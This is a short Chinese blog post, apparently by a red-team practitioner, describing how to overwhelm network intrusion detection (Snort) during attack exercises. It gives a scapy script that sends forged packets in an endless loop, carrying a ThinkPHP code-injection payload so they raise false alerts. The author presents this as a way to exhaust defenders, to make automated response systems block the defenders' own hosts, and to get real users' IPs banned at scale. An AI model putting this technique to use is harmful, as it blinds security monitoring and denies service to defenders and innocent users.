```yaml
---
title: scapy attack snort
date: 2021-11-01
categories: ["攻"]
tags: []
---
```


hw的时候防守方都是几百号人对几支攻击队，加上内网一大堆告警设备有些烦

一个恶心流量设备的小方法，可以通过伪造告警，耗尽防守方体力

还可以通过组合告警流量，来触发nids的soar，实现让他们自己封禁自己，也可以引入纯真ip池，让他们大规模封禁真实用户

demo

```
#!/usr/bin/env python

from scapy.all import *

packet_ip = IP(src="192.168.1.222", dst="192.168.1.143")

udp_3 = UDP(sport=4444, dport=16464)
payload_3 = "index/\think\View/display&content=%22%3C?%3E%3C?php%20phpinfo();?%3E&data=18"

packet_3 = packet_ip / udp_3 / payload_3

packets = [packet_3]

send(packets, loop=1)

```